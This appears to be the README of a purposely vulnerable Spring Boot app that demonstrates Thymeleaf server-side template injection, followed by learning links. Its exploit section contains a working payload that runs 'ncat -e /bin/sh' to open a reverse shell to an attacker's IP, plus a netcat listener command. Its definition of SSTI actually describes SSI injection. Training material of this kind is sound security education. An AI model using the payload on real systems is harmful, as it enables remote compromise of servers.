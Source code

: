 # Java-Thymeleaf-SSTI


simple spring boot app that contains an example of a SSTI vulnerability and its main goal is to describe how a malicious user could exploit it on this purposefully vulnerable app.

## What is Server Side Template Injection ?

SSIs are directives present on Web applications used to feed an HTML page with dynamic contents. They are similar to CGIs, except that SSIs are used to execute some actions before the current page is loaded or while the page is being visualized. In order to do so, the web server analyzes SSI before supplying the page to the user.

Owasp : https://owasp.org/www-community/attacks/Server-Side_Includes_(SSI)_Injection


## Setup

You can start the application with one of these methods
1. Go into the src directory and run these commands :
```
1- ./gradlew build

2- ./gradlew bootRun
```

2. Or simply you can go into the docker directory and run following command:
```
docker-compose up -d
```

3. Or directly run it with docker like this:
```
docker run --name ssti -d -p 8080:8080 siyavash/thymeleaf-ssti
```

Now visit [localhost:8080](http://localhost:8080)


## How To Exploit
After visiting [localhost:8080](http://localhost:8080) you must see a page like this:

![homepage.png](homepage.png)

to test SSTI simply type something like ${7*7} in the input and click join. it will be processed on server and you will see the result which is 49

![49.png](49.png)

Because the application is vulnerable to SSTI we try to achive RCE on the machine. to do this follow these steps:

1. Open a terminal and run following netcat command:
```
nc -v -l 9999
```

2. Now we have netcat listening on port 9999 for any incoming connection , we are going to inject or payload
3. Instead of e-mail paste following payload in the input. remember to replace your IP address with the current one
```
(${T(java.lang.Runtime).getRuntime().exec('ncat -e /bin/sh 192.168.0.192 9999')})
```

4. Here is a video getting reverse shell.

https://user-images.githubusercontent.com/9821568/155853142-8e2a37cc-f16e-4419-bedc-74a3c340e905.mp4



## Fix Hint

https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/
   
## Twitter & Facebook Contributor :
   
 https://www.linkedin.com/in/mohammad-hussein-namadi-775baa131/
 
 https://twitter.com/siavashvafshar
    
## Fix 

We encourage you to contribute to Project and Fix Codes

If you want to pull request please follow this :

CONTRIBUTION.md
 
## Awesome Learn & Report

Learn:

https://cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti

https://portswigger.net/web-security/server-side-template-injection

https://workbook.securityboat.in/resources/web-app-pentest/server-side-template-injection-ssti

Tools: https://github.com/epinna/tplmap

https://github.com/epinna/tplmap/blob/master/burp_extension/README.md

Report : 

RCE on Yahoo:  https://gist.github.com/Yas3r/7006ec36ffb987cbfb98

https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf

https://www.youtube.com/watch?v=3cT0uE7Y87s

https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti

RCE in Hubspot with EL injection in HubL: https://www.betterhacker.com/2018/12/rce-in-hubspot-with-el-injection-in-hubl.html?spref=tw

https://medium.com/@david.valles/gaining-shell-using-server-side-template-injection-ssti-81e29bb8e0f9

EXPLOITING SERVER SIDE TEMPLATE INJECTION WITH TPLMAP:	https://owasp.org/www-pdf-archive/Owasp_SSTI_final.pdf

Server Side Template Injection – on the example of Pebble: https://research.securitum.com/server-side-template-injection-on-the-example-of-pebble/

Exploring SSTI in Flask/Jinja2, Part II: https://blog.nvisium.com/p255

https://hackerone.com/reports/423541

https://subscription.packtpub.com/book/networking-and-servers/9781788626897/11

https://medium.com/@gandhim373/4-server-side-template-injection-easily-found-d7ca345aa55f

https://github.com/TeamGreyFang/CTF-Writeups/blob/master/VolgaCTF2020/Web-Newsletter/README.md
